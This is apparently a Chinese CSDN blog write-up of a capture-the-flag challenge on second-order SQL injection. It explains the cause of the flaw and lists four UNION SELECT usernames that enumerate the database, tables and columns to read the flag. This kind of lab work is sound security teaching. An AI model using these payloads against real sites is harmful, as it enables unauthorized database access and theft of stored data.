






<!--yml
category: 未分类
date: 2022-04-26 14:43:01
-->

# buuctf XCTF October 2019 Twice SQL Injection 二次注入原理+题解_AAAAAAAAAAAA66的博客-CSDN博客

> 来源：[https://blog.csdn.net/AAAAAAAAAAAA66/article/details/122059073](https://blog.csdn.net/AAAAAAAAAAAA66/article/details/122059073)

这里要吐槽一点XCTF，之前翻题目时发现有道10分的，还是二次注入，还是0人做出，看了write up觉得还挺简单，就想混着写一下，结果0人做出的原因居然是环境打不开。然后在buuctf 平台找到了这道题，所以就试着写下write up。

 

**目录**

[二次注入](#%E4%BA%8C%E6%AC%A1%E6%B3%A8%E5%85%A5 "二次注入")

[二次注入的成因](#%E4%BA%8C%E6%AC%A1%E6%B3%A8%E5%85%A5%E7%9A%84%E6%88%90%E5%9B%A0 "二次注入的成因")

[二次注入常出现的地方](#%E4%BA%8C%E6%AC%A1%E6%B3%A8%E5%85%A5%E5%B8%B8%E5%87%BA%E7%8E%B0%E7%9A%84%E5%9C%B0%E6%96%B9 "二次注入常出现的地方")

[题解](#%E9%A2%98%E8%A7%A3 "题解")

[思路](#%E6%80%9D%E8%B7%AF "思路")

[ 步骤](#%C2%A0%E6%AD%A5%E9%AA%A4 " 步骤")

* * *

# 二次注入

## 二次注入的成因

*   **由于开发者为了防御sql注入，使网站对我们输入的恶意语句中的一些重要的关键字进行了转义，使恶意的sql注入无法执行（比如说将单引号转义，使其无法闭合）**。
*   **但是数据库存储我们的数据时，输入的恶意的语句又被还原成转义之前的语句（数据库又没有对存储的数据进行检查，默认存储的数据都是无害的）**
*   **这时仍然没有被攻击，但是当我们数据库在进行查询时，如果调用了这条信息，就可能会产生sql注入。**

**所以要说明的是，二次注入的产生是需要以上一些特定的条件的。所以二次注入一般比较难发现**。

## 二次注入常出现的地方

# 题解

## 思路

```
接下来我们说的详细一点：
首先判断，为什么存在二次注入

我们首先注册，登陆，都使用了sql语句发现无果，
然后我们进入Info页面，进行一个简单的sql语句 发现服务器并没有过滤掉关键字，只是将我们的
单引号用\转义。

这个时候就是存在二次注入的一个必要条件
```



```
所以我们接下来就通过
1.注册恶意用户名 
2.登陆， 在登陆过程中，肯定要将我们输入的数据和数据库进行比对，而在这个
查询数据库中的用户名进行比对的这个过程中，会执行我们插入数据库的用户名（也就是恶意sql注入语句）
所以使用下面4个恶意用户名，分别注册4个账号，进行登陆操作，一步一步爆出来

1' union select database() #
1' union select group_concat(table_name) from information_schema.tables where table_schema='ctftraining' #
1' union select group_concat(column_name) from information_schema.columns where table_name='flag'#
1' union select flag from flag #

下面给出一些步骤
```

##  步骤

```
注册 用户名为： 1' union select database() #  密码：111
```



 点击Register ，注册成功

点击Register 后，到达Login页面，输入账户密码

```
用户名为： 1' union select database() #  密码：111
```

 

点击登陆，爆出了数据库。



 接下来重复操作，注册-登陆-爆出信息，依次获取表名，字段名，字段值，最终得到flag。

表名



 字段名


 字段值（flag）

